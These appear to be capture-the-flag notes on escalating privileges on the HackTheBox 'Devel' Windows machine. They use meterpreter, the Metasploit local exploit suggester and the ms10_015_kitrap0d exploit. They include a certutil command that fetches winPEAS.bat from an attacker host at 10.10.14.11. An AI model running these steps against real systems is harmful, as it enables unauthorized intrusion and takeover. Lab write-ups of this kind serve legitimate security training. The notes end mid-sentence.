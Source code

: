 - then do a `shell` and do `systeminfo` and this usually tells us the hotfixes installed (updates), N/A if the machine has never been updated
- `exit` out of meterpreter session
- then search `search suggest` for widows exploit suggester, `show options` and set sessions to 1 and set the lhost
- if we do `shell` and `net statistics Server`, we can see the date and see if the mahine got rebooted
- so then we use one of the exploits in exploit suggester which is `ms10_015_kitrap0d​` and run it on a session and it see get a shell


- Since we know it is an x86 architecture from our system information, we will transfer our winpeasx86 script

![](assets/Devel_assets/Pasted%20image%2020230616075246.png)

- winpeas86.exe was not giving output so I decided to transfer the bat version instead
`certutil.exe -urlcache -split -f http://10.10.14.11/winPEAS.bat winpeas.bat`


![](assets/Devel_assets/Pasted%20image%2020230616081409.png)

- so running the script, we van

![](assets/Devel_assets/Pasted%20image%2020230616081511.png)
